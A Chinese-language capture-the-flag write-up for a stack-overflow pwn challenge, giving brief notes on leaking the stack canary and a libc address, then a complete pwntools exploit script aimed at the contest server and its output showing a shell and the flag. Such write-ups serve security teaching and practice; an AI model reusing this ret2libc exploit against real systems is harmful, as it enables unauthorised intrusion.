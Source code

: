 title: 安恒月赛pwn100
date: 2018-5-20
categories:
- PWN
---

# baby stack
- 一个简单的栈题,没有开启PIE,开启NX和Canary
- 程序里没有system函数,所以只能泄漏某函数真实地址然后算出偏移
- 由于puts函数的特性,可以打印出canary的值,泄漏内存
- 最后一发栈溢出,打印puts_got的值,注意程序是x64的,函数传参方式是寄存器传参
- 最后要知道,canary只需要泄漏一次就好
- 接收数据时.要利用好r.recv() r.recvuntil()

# exp
```python
from pwn import *
#r = process("./5b163293eb109")
r = remote("101.71.29.5",10001)
elf = ELF("./5b163293eb109")
#############################
libc_puts=0x6F690
poprdiret = 0x400873
poprsirdi = 0x400871
start = 0x400630
puts_got = 0x601020
puts_plt = 0x4005c0
#############################
success("start leak canary!")
r.sendline("a"*0x38)
r.recvuntil("a"*0x38)
a = r.recv(8)

canary = u64(a)&0xffffffffffffff00
print "canary:        %x"%canary
success("success leak canary!")

payload = "1"*56 + p64(canary) + "z"*8 #padding
payload += p64(poprdiret)
payload += p64(puts_got) 
payload += p64(puts_plt)
payload += p64(start)
# leak offset
r.sendline(payload)
raw_input()
r.send('\n')
r.recvuntil('1'*56+'\n>\n\n')
addr = r.recv(6).ljust(8,'\x00')
puts_addr = u64(addr)
print hex(puts_addr)
offset = puts_addr - libc_puts
# double stack overflower
payload = "1"*56 + p64(canary) + "z"*8
payload += p64(poprdiret)
payload += p64(offset + 0x18CD57)
payload += p64(offset + 0x45390)

r.sendline(payload)
r.sendline()

r.interactive()
```
```python
mozhucy@ubuntu:~/Desktop$ python exp.py 
[+] Opening connection to 101.71.29.5 on port 10001: Done
[*] '/home/mozhucy/Desktop/5b163293eb109'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] start leak canary!
canary:        882518a5ffcc4a00
[+] success leak canary!

0x7f67c3914690
[*] Switching to interactive mode

>11111111111111111111111111111111111111111111111111111111
>$ 


$ ls
a.out
bin
dev
flag
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{4d5fyun5rr6gyhu56fgyun56rgyuh65g7yu}
$  

```
